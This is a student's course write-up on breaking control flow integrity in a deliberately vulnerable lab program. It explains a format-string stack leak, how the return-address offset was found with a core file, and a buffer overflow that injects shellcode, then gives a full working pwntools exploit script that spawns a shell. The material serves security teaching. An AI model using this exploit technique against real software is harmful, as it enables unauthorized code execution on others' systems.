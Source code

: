 # Assignment 10
The goal of this assignment was to learn about control flow integrity and how to break it. I did this by using pwntools, a python library designed to exactly this. To do this we took a poorly made ,at least as far as security is concerned, program that allowed user to input data that wasn't properly checked. 

## Process
The first thing we had to do was determine what we could do to the program to break it. To do this I started off by just trying to over flow the buffers for input. There was 2 locations I was able to overflow and cause a segmentation fault, the name and the credit card input for the progam.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/3cd84b7c-498e-4497-8a8d-ffdba1d527b9)

So now we know we can input our shellcode into the input and overwrite return addresses to call the shellcode, but the hard part now is finding where to overwrite the return address and what address to overwrite it with. The way I did this was by getting the program to leak an address to the stack, this way I could find an offset and use that to get the code to run. This can be done in the pizza program by feeding it a string of `%p` because of the way the program was written. The pizza program uses something like sprintf(), or printf() in the code which allows us to use format specifiers in our string input. This is really bad practice because when you pass too many specifiers and not enough input you get undefined behavior which opens your program to attacks. Because of our format specifiers '%p' we can print what ever is on that stack as pointers to the screen, so we just print a few until we see a pointer that leads to the stack. We can determine which pointers are to the stack using some common sense principals, we know that the stack grows downward and that the start of the stack is normally the max number for the virtual address space, so we know we are looking for the largest valued pointers, which happens to be the `0x7ffe2c82e8e0` value.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/0dffaf51-392c-42f9-896f-64b95773e856)

Now that we've leaked pointers we just have to determine which one to use and create an offset. Because of randomize stack locations we cant hardcode a return address to our shellcode, because everytime the program runs it would be different. So we have to to find the offset from one of the leaked pointers. I did this by using the corefiles that the cpu dumps when it crashes, so all I had to do was crash the program, which we already discovered how to do. After crashing the program I used the core file and pwntools to open it and view pointers and the stack. I used the stackpointer at the time of the crash and printed the stack around that pointer to get a glimpse of the stack.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/ecbb3f33-2826-412b-a9cd-4b9c20f4746e)

In the image above you can see that I have already input the shellcode and crashed the program by following it with a bunch of A's. Using this glimpse into the stack we can determine 2 things: First, that the position of the stackpointer at the time of the crash is return address we want to replace. Second, we know where the adress of the shellcode is, so now we can calculate the offset.

To calculate the offset we just take the two stack address we found and subtract them from eachother. This will give us the number we need to add to the leaked address everytime we run the code and put into the return address. 
In this case we take:
~~~
    0x7ffe2c82e8e0
-   0x7ffe2c82e870
--------------------
    0x000000000070 => 112
~~~
So now we can but everything together and have the program leak addresses at runtime, and create the return address with the offset, then combine the the shellcode, a buffer of whatever, then finally the return address to the shellcode. Then we can run the program again and it will allow us to use the terminal.

![image](https://github.com/Novaii-Yoder/CS579/assets/52936757/77026007-490a-4063-a853-4191e27e16fc)

## Code
~~~python3
from pwn import *

# A simple function that takes a core file and prints the stack, it prints the number entered as the total lines and prints the lines around where the stack pointer was when the program crashed.
def print_stack(core, num=20):
    rsp = core.rsp
    print("Stack")
    x = num//2
    for i in range(x, 1, -1):
        tmp = rsp + 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")

    print(f"{tmp:x}\t{core.read(rsp, 8)} <------- RSP")

    for i in range(1, x):
        tmp = rsp - 8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")



#### MAIN ####

# Executable and Linkable Format
elf = ELF("./pizza")

# Set the context in pwn to machine settings
context(arch='amd64', os='linux', endian='little', word_size=64)

# Get the addresses to function names
# getname_address = elf.symbols["getname"]
# print(hex(getname_address))

# Loads in pwn's shell code as assembly
shellcode = asm(shellcraft.amd64.linux.sh())

# Prints shellcode as assembly
# print(shellcraft.amd64.linux.sh())

# Prints shellcode as hex
# print(shellcode.hex().upper())

# Start the target process we will be breaking into 
victim = process("./pizza")

# First input tricks the program into printing stack and other locations
input1 = b"%p %p %p %p %p %p %p %p %p %p"

# Get the first line of output
print(str(victim.recvline(), "latin-1"))

# Send our "name" aka "%p %p.."
victim.sendline(input1)

# Get the response and parse it into getting the stackpointer
line = str(victim.recvline(), "latin-1")
print(line)
# Subtract the offset to the start of our shellcode
addr = int(line.split(" ")[7], 16) - 112
# Create our second input, which will have the shellcode, then a bunch of garbage until the return adress to the shell code.
input2 = shellcode + b"A"*88 + addr.to_bytes(8, 'little')


line = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

# Send our shellcode 
victim.sendline(input2)

# Give the control back to us
# Now we have access to the computer as whoever ran ./pizza
victim.interactive()

victim.wait()

# This finds the corefile from a segfault and lets us parse it
# core = victim.corefile
# print_stack(core, 40)

# print(input2)
# print(disasm(core.read(core.rip,8))) # prints next instructions
exit()
~~~
